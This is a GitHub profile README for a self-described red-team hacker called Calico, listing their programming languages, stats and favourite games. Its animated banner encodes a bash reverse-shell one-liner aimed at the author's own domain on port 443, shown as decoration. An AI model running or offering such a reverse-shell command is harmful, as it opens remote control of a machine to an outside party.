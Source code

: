 ## 😸 My Cyber House.
[![Typing SVG](https://readme-typing-svg.demolab.com?font=&pause=1000&color=00FF00&background=000000&vCenter=true&random=false&width=570&lines=%E2%AC%9B%3E+bash+-i+%3E%26+%2Fdev%2Ftcp%2Fhackercalico.github.io%2F443+0%3E%261)](https://git.io/typing-svg)
## :octocat: About Me
我是 Calico，一只专注于 Red Team 武器化的 Cyber Cat。  
我喜欢尝试新事物、思考创新点，开发一些非常酷的黑客工具！

<p>
  <img src="https://github.com/devicons/devicon/blob/master/icons/bash/bash-original.svg" title="bash" alt="bash" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/c/c-original.svg" title="c" alt="c" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/cplusplus/cplusplus-original.svg" title="cplusplus" alt="cplusplus" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/csharp/csharp-original.svg" title="csharp" alt="csharp" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/go/go-original.svg" title="go" alt="go" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/python/python-original.svg" title="python" alt="python" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/java/java-original.svg" title="java" alt="java" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/php/php-original.svg" title="php" alt="php" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/raspberrypi/raspberrypi-original.svg" title="raspberrypi" alt="raspberrypi" width="50" height="50"/>
</p>

![Anurag's GitHub stats](https://github-readme-stats.vercel.app/api?username=HackerCalico&show_icons=true&theme=transparent)
<img src="https://raw.githubusercontent.com/HackerCalico/Blog-Resource/main/2.gif" alt="GIF" align="linuxQ" width="180"/>
## 💛 My Favorite
Minecraft、Hollow Knight、Spore  
NO GAME NO LIFE、呪術廻戦、無職転生
